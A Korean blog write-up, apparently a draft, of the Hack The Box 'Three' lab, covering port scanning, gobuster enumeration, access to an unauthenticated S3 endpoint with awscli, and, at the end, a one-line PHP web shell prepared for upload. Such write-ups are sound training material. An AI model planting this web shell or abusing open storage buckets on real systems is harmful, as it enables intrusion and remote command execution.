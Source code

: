 ```yaml
---
title: HTB Three Write-up
categories: [HackTheBox, Basic]
tags: [HackTheBox, Gobuster, AWS, S3, awscli]
image:
    path: /assets/image_post/20240214231540.png
draft: true
---
```


![](../assets/image_post/20240214231721.png)

우선 port scan 결과를 먼저 확인해보자. ssh와 http port가 기본 포트에 맞추어 열려있다.
``` bash
┌──(root㉿fb940ca6010c)-[/rfi]
└─# nmap -sC -sV 10.129.227.248
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-14 14:17 UTC
Nmap scan report for 10.129.227.248
Host is up (0.29s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 17:8b:d4:25:45:2a:20:b8:79:f8:e2:58:d7:8e:79:f4 (RSA)
|   256 e6:0f:1a:f6:32:8a:40:ef:2d:a7:3b:22:d1:c7:14:fa (ECDSA)
|_  256 2d:e1:87:41:75:f3:91:54:41:16:b7:2b:80:c6:8f:05 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: The Toppers
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.33 seconds
```

이전 문제와는 조금은 다르지만 유사한 점이 있다. IP로 해당 사이트가 접근 되긴 하지만, 다른 페이지로의 이동은 되지 않는다. 할당 된 ip로 접근 시 아래와 같이 웹에 접근 된다.
![](../assets/image_post/20240214232544.png)

다만, 사이트의 기능을 눌러보면 아래와 같이 접근되지 않는 부분이 있다. 아마 `/etc/hosts`에 등록을 해주어야 하는 것 같다.
``` bash
echo "10.129.227.248 thetoppers.htb" | sudo tee -a /etc/hosts
```
![](../assets/image_post/20240214232658.png)

그렇다면 사이트 url을 알아야 등록이 가능한데, 나의 경우 페이지 소스를 보며 찾았다. 굳이 페이지 소스가 아니라 CONTANT에 기재된 이메일 주소를 통해 유추해볼 수도 있다. 이메일 주소에 포함된 'thetoppers.htb'가 site url로 추정된다.
``` html
      <div class="w3-col m6 w3-large w3-margin-bottom">
        <i class="fa fa-map-marker" style="width:30px"></i> Chicago, US<br>
        <i class="fa fa-phone" style="width:30px"></i> Phone: +01 343 123 6102<br>
        <i class="fa fa-envelope" style="width:30px"> </i> Email: mail@thetoppers.htb<br>
      </div>
      <div class="w3-col m6">
```

`/etc/hosts`를 수정해도 위의 페이지는 들어가지지 않는다. 그렇다면 접근 가능한 다른 url이 있는지 파악하기 위해 gobuster를 사욜해보고자 한다. 결과는 아래와 같고 사용한 리스트 파일은 [링크](https://raw.githubusercontent.com/aels/subdirectories-discover/main/dsstorewordlist.txt)에서 다운 가능하다.
``` bash
┌──(root㉿fb940ca6010c)-[/]
└─# gobuster dir -u http://thetoppers.htb/ -w ./dsstorewordlist.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://thetoppers.htb/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                ./dsstorewordlist.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 317] [--> http://thetoppers.htb/images/]
/index.php            (Status: 200) [Size: 11952]
/.htaccess            (Status: 403) [Size: 279]
/.htpasswd            (Status: 403) [Size: 279]
/.htpasswds           (Status: 403) [Size: 279]
Progress: 1828 / 1829 (99.95%)
===============================================================
Finished
===============================================================
```

수집된 경로를 보아 /images에 접근 가능한 듯하다. 접근 해보니 아래와 같이 Directory Listing 취약점이 존재하는 것을 알 수 있다. 
![](../assets/image_post/20240214233724.png)

다만 저 경로 외에 더 이상의 접근은 되지 않아 별 다른 정보를 획득하지는 못했다. 그렇다면 우선 남은 추가 정보는 Apache 버전 정보이다.
```
Apache/2.4.29 (Ubuntu) Server at thetoppers.htb Port 80
```

gobuster dns를 사용하여 찾아도 별다른 정보를 얻을 수 없다.
``` bash
┌──(root㉿kali)-[/home/user]
└─# gobuster dns -d thetoppers.htb -w /usr/share/wordlists/dnsmap.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Domain:     thetoppers.htb
[+] Threads:    10
[+] Timeout:    1s
[+] Wordlist:   /usr/share/wordlists/dnsmap.txt
===============================================================
Starting gobuster in DNS enumeration mode
===============================================================
Progress: 17576 / 17577 (99.99%)
===============================================================
Finished
===============================================================
```

지금 이 부분은 다른 사람의 writeup을 참고한 부분이다. 원래 아래와 같이 vhost로 스캔하면 s3.thetoppers.htb가 수집되어야 하는데, 나의 경우 수집이 되지 않는다. 무언가 불안정한가...
``` bash
┌──(root㉿kali)-[/home/user]
└─# gobuster vhost -u http://thetoppers.htb -w subdomains-top1million-5000.txt
```
s3.thetoppers.htb에 대한 정보를 획득했다는 가정하에, 정상접근을 위해선 이전과 마찬가지로 /etc/hosts에 추가해주어야 한다.
``` bash
10.129.188.193  thetoppers.htb s3.thetoppers.htb
```

s3의 경우 AWS 버킷과 관련된 것으로 접근을 위해 awscli를 설치하자. awscli를 설치 후 aws 명령어로 해당 서버에 접속을 시도해보자. 아래와 같이 설정이 되지 않아 오류가 발생한다.
``` bash
┌──(root㉿kali)-[/home/user]
└─# aws s3 ls s3://s3.thetoppers.htb

Unable to locate credentials. You can configure credentials by running "aws configure".
```

다행히 별도의 값이 있어야 하지는 않고 아래와 같이 임의의 값을 넣어 주면 된다.
``` bash
┌──(root㉿kali)-[/home/user]
└─# aws configure
AWS Access Key ID [None]: test
AWS Secret Access Key [None]: test
Default region name [None]: test
Default output format [None]: test
```

이후 다시 해보니 아래와 같이 연결이 불가하다고 뜨며 주소가 나타난다. 내가 원했던 's3.thetoppers.htb'가 아니라 조금 많이 긴 주소인 것을 보니 무언가 잘못된 듯 싶다.
``` bash
┌──(root㉿kali)-[/home/user]
└─# aws s3 ls s3://s3.thetoppers.htb

Could not connect to the endpoint URL: "https://s3.thetoppers.amazonaws.com/s3.thetoppers.htb?list-type=2&prefix=&delimiter=%2F&encoding-type=url"
```

명령어 인자를 아래와 같이 변경 후 접근 시 성공적으로 접근 된다.
``` bash
┌──(root㉿kali)-[/home/user]
└─# aws aws s3 --endpoint=http://s3.thetoppers.htb ls

2024-02-15 03:33:23 thetoppers.htb
```

우선 어떤 파일들이 있는지 확인해보자. index.php와 jpg 파일 외에 별 다른 파일은 보이지 않는다.
``` bash
┌──(root㉿kali)-[/home/user]
└─# aws s3 --endpoint=http://s3.thetoppers.htb ls
2024-02-15 05:38:01 thetoppers.htb

┌──(root㉿kali)-[/home/user]
└─# aws s3 --endpoint=http://s3.thetoppers.htb ls thetoppers.htb
                           PRE images/
2024-02-15 05:38:01          0 .htaccess
2024-02-15 05:38:02      11952 index.php

┌──(root㉿kali)-[/home/user]
└─# aws s3 --endpoint=http://s3.thetoppers.htb ls thetoppers.htb/images/
2024-02-15 05:38:01      90172 band.jpg
2024-02-15 05:38:02     282848 band2.jpg
2024-02-15 05:38:02    2208869 band3.jpg
2024-02-15 05:38:01      77206 final.jpg
2024-02-15 05:38:01      69170 mem1.jpg
2024-02-15 05:38:01      39270 mem2.jpg
2024-02-15 05:38:02      64347 mem3.jpg
```

그렇다면 awscli로 웹쉘을 업로드하여 동작시켜보고자 한다. 웹쉘의 코드는 아래와 같다.
``` bash
┌──(root㉿kali)-[/home/]
└─# cat cmd.php
<?php system($_GET['cmd']); ?>
```
